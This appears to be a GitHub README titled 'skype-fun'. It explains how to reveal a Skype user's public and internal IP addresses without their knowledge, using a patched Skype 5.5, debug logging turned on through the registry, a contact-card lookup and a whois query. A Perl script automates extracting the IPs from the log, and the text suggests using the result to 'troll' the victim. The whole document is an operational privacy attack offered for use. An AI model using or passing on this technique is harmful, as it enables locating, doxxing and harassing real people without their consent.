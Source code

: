 skype-fun
=========

Skype user IP-address disclosure

1. Downloading this patched version of Skype 5.5: 
http://skype-open-source.blogspot.com/2012/03/skype55-deobfuscated-released.html 

2. Turn on debug-log file creation via adding a few registry keys. 
https://github.com/skypeopensource/skypeopensource/wiki/skype-3.x-4.x-5.x-enable-logging 

3. Make "add a Skype contact" action, but not send add request, just click on user, to view his vcard(general info about user). This will be enough. 

4. Take look in the log of the desired skypename.
The record will be like this for real user ip: -r195.100.213.25:31101 
And like this for user internal network card ip: -l172.10.5.17 

21:16:45.818 T # 3668 PresenceManager: aїљ noticing skypetestuser1 0x3e54a539a91a19fc-s-s65.55.223.23 
:40013-r195 .100.213.25:31101-l172 .10.5.17:22960 23d23109 82f328ff 

5. Catch user via whois service.
http://nic.ru/whois/?query=195.100.213.25 

This is help you to get info about skype user: City, Country, Internet provider and internal user ip-address. 

Now you can troll him about CIA and Mossad, he-he.

--- 
Perl script to automate the search in the debug log. 
---
#!perl

$LOGFILE="debug-20120420-2257.log";
$SKYPENAME="skypetestuser1";

open(RD,$LOGFILE);
open(WR,">_ip_logger.txt");
while(<RD>){ chomp;
 $line=$_;

 if( ($line=~ /PresenceManager:/) and ($line=~ /noticing/) ){
  $line=~ /-r(\d+.\d+.\d+.\d+)/;
  $ip=$1;

  print WR $line."\n";
  print WR "IP: $ip\n";

  if ($line=~ /$SKYPENAME/){
   print $line."\n";
   print "${SKYPENAME} IP: $ip\n";
  };
 };

};
close(RD);
close(WR);
---
